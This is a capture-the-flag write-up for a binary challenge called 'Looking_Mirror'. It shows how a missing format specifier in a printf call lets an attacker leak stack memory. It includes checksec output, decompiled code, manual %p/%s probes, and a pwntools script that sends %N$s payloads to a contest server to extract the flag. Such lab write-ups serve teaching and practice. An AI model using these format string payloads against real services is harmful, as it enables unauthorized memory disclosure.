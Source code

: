 # Looking_Mirror

**Description**:  
Welcome brave adventurer, gaze into the immortal mirror and best it with your queries. Let it spill the much guarded secret to a masterful conquest!

**Author:  [Ath3n1x](https://twitter.com/Ath3n1x)**

**Solution**: 
As usual, lets start with checking the permissions with `checksec`:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Everything else enabled, except for canary. 

Now lets try running the binary:
```
Ask the looking mirror for the secret to a masterful conquest!
==============================================
Hi, you are face to face with the immortal mirror now!
Delve into its eternal wisdom and get the much gaurded secret.
Remember! it shall delight you with a reply, only if you are truly worthy. Otherwise it will echo your queries back to you.



> hi
Looking Mirror: hi

> I am Ath3n1x
Looking Mirror: I am Ath3n1x

> 
```
As the description says, it just spits out the input.

Now we will move on the examining the source code in ida/ghidra:
```
  do {
    printf("\n> ");
    fgets(local_98,0x40,stdin);
    printf("Looking Mirror: ");
    printf(local_98);
  } while( true );
```
Bingo, here is the culprit! Look at the printf statement `printf(local_98);`, a small friend called format specifier is missing leading to format string vulnerability.

Now that we found the vulnerability, lets again try running the binary and try to leak some stuff from stack.

```
> %p %p %p %p
Looking Mirror: 0x7ffd11b09970 (nil) (nil) 0x63605f4c248c

> %s %s %s %s %s
Looking Mirror: Looking Mirror: nil) (nil) 0x63605f4c248c
 (null) (null) 4t5_b4by_f0rm4773r}
 (null)
```
Woah, we got something. Now, lets prepare our exploit. I had a fuzzing script ready, so I used that for this challenge since we can directly leak the flag.

**Exploit:**
```
from pwn import *

#elf = context.binary = ELF('./looking_mirror', checksec=False)

for i in range(100):
    try:
        #p = process(level='error')
        p = remote("13.234.11.113", 31481)
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        result = p.recvuntil(b'> ')
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

On running the script:
```
0: b'Looking Mirror: %0$s\n\n> '
1: b'Looking Mirror: Looking Mirror: \xe8\x03\n\n> '
2: b'Looking Mirror: (null)\n\n> '
3: b'Looking Mirror: (null)\n\n> '
4: b'Looking Mirror: iCTF{c0ngr4t5_b4by_f0rm4773r}\n\n\n> '
5: b'Looking Mirror: (null)\n\n> '
6: b'Looking Mirror: u\x91d*\xfc\x7f\n\n> '
8: b'Looking Mirror: (null)\n\n> '
10: b'Looking Mirror: shaktiCTF{c0ngr4t5_b4by_f0rm4773r}\n\n\n> '
```

:tada::tada::tada:

Flag: `shaktiCTF{c0ngr4t5_b4by_f0rm4773r}`              
